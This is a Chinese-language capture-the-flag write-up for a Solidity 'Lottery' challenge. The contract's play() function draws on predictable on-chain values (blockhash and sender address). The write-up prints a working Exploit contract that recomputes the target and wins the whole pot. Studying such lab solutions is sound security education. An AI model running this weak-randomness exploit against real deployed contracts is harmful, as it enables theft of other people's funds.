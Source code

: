 
## Lottery

??? question "题目合约"
    ```solidity
    pragma solidity 0.4.24;

    import "../CtfFramework.sol";
    import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

    contract Lottery is CtfFramework{

        using SafeMath for uint256;

        uint256 public totalPot;

        constructor(address _ctfLauncher, address _player) public payable
            CtfFramework(_ctfLauncher, _player)
        {
            totalPot = totalPot.add(msg.value);
        }
        
        function() external payable ctf{
            totalPot = totalPot.add(msg.value);
        }

        function play(uint256 _seed) external payable ctf{
            require(msg.value >= 1 finney, "Insufficient Transaction Value");
            totalPot = totalPot.add(msg.value);
            bytes32 entropy = blockhash(block.number);
            bytes32 entropy2 = keccak256(abi.encodePacked(msg.sender));
            bytes32 target = keccak256(abi.encodePacked(entropy^entropy2));
            bytes32 guess = keccak256(abi.encodePacked(_seed));
            if(guess==target){
                //winner
                uint256 payout = totalPot;
                totalPot = 0;
                msg.sender.transfer(payout);
            }
        }    
    }
    ```

预测伪随机数，只需要编写一个新的合约然后根据 play 里的逻辑生成 target，然后传给 play 即可

需要注意的是要支付 1 finney 作为 value，并且在部署合约之后要先调用一下 Lottery 的 ctf_challenge_add_authorized_sender 函数（来自 CtfFramework）将合约地址加入白名单

???+ done "exp"
    ```solidity
    contract Exploit {
        Lottery challenge;
        constructor(address addr) public {
            challenge = Lottery(addr);
        }
        function exp() public payable {
            bytes32 entropy = blockhash(block.number);
            bytes32 entropy2 = keccak256(abi.encodePacked(this));
            uint256 ans = uint256(entropy ^ entropy2);
            challenge.play.value(msg.value)(ans);
        }
        function() public payable {}
        function destroy(address addr) public {
            selfdestruct(addr);
        }
    }
    ```

---